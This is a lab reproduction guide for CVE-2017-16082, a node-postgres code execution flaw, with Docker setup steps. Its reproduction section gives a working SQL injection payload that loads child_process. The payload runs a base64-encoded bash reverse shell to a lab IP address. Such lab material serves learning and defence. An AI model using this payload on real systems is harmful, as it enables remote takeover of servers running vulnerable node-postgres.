



Node-Postgres Remote Code Execution (CVE-2017-16082)¶
Node-postgres is a Node.js client for PostgreSQL. It is a popular database connector for Node.js applications.
When node-postgres processes a PostgreSQL response packet of type Row Description, it concatenates the field names into the code. Due to improper escaping, a specially crafted field name can escape the code's single quote restriction, leading to code execution vulnerability.
Reference links:
- https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
- https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability
- https://zhuanlan.zhihu.com/p/28575189
Environment Setup¶
Run the following commands to build and start a vulnerable application based on node-postgres 7.1.0:
docker compose build
docker compose up -d
After the server is successfully started, visit http://your-ip:3000/?id=1 to view information for user with id 1. Using sqlmap, you can discover that there is an injection point here, and the database is PostgreSQL:

Vulnerability Reproduce¶
We can then assume that the node-postgres code execution vulnerability exists here. Write the command you want to execute echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash, then split it appropriately (each segment should not exceed 64 characters) and replace it in the following payload:
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
Send the above payload after encoding:

Successfully execute commands, such as reverse shell:

Because there are many difficulties in the reproduction process, if you encounter errors during payload generation and testing, please read this article to understand the underlying principles and find the source of the problem.